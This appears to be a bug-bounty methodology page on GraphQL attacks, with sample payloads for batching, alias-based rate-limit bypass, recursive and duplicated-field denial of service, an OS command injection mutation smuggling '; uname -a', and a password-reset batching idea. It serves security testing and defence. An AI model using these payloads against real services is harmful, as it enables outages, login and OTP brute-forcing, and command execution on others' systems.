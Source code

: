 
# I - Batch Query Attacks

If a resource intensive GraphQL query is identified, batch processing can be used to call the query and potentially overwhelm the service for a prolonged period of time.

```
data = [
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]}
]
requests.post('http://host/graphql', json=data)
```

### 1 Aliases based Attack
If batching is disabled, use [aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases), if the server is not analyzing the cost of the query, it can be used to DOS, or it can be used to bypass rate limiting on Login, OTP...

```
query {
  t1:systemUpdate
  t2:systemUpdate
  t3:systemUpdate
  t4:systemUpdate
}
```

> [!NOTE]
> if Cost Query Analysis is enabled, it should prevent running batched queries.


# II - Denial of Service
### 1 :: Deep Recursion Query Attack
If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          name
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

### 2 :: Resource Intensive Query Attack
Some queries may be computationally more expensive than others, as they would trigger more complex backend logic in order to fulfill the query resolution. we can abuse it by calling these actions frequently in order to cause resource exhaustion.
```
query {
  t1:systemUpdate
}
```
Execution Time :: 81 seconds
> [!NOTE]
> if Query Cost Analysis protection is implemented it should it!
### 3 Field Duplication Attack
Various GraphQL implementation do not bother de-duplicating repeating fields in GraphQL, allowing the user to multiply the same requested fields as they wish.
```
query {
  pastes {
    owner {
      pastes {
            ipAddr # 1
            ipAddr # 2
            ipAddr # 3
            ipAddr # 4
            ipAddr # 1000
          }
        }
    }
}
```

### 4 Circular Fragment
The GraphQL API allows creating circular fragments, such that two fragments are cross-referencing eachother. When a Spread Operator (...) references a fragment, which in return references a 2nd fragment that leads to the former fragment, may cause a recursive loop and crash the server.

Resources
 GraphQL Specification - Fragments Must Not Form Cycles
 GraphQL Cop - Security Auditing Tool for GraphQL

# III Information Disclosure
### 1 GraphQL suggestions
when Introspection is not allowed suggesstions can be used togain more insight into GraphQL's schema, 
[Clairvoyance - GQL Security tool for field enumeration](https://github.com/nikitastupin/clairvoyance)


### 2 GraphQL Interface
GraphiQL is usually found in paths such as: /graphiql or /console, however it can be found in [other places too](https://raw.githubusercontent.com/anmolksachan/anmolksachan.github.io/main/graphql/graphql-common.txt)


# IV - OWASP
### 1 CSRF
Doesn't differ from regular [CSRF](https://portswigger.net/web-security/graphql#graphql-csrf) 
### 2 OS Command Injection
```
mutation  {
  importPaste(host:"localhost", port:80, path:"/ ; uname -a", scheme:"http"){
    result
  }
}
```
SSRF, SQLi, XSS, Path Traversal
## Refrences
- [GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)

## Tools
- ShapeShifter - GQL Security tool for Schema Extraction
- Clairvoyance - GraphQL Schema Enumeration Discovery Tool
- graphw00f - GraphQL Fingerprinting Tool
- [graphql-cop - Security Auditor Utility for GraphQL APIs](https://github.com/dolevf/graphql-cop)

## Ideas:
- Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack

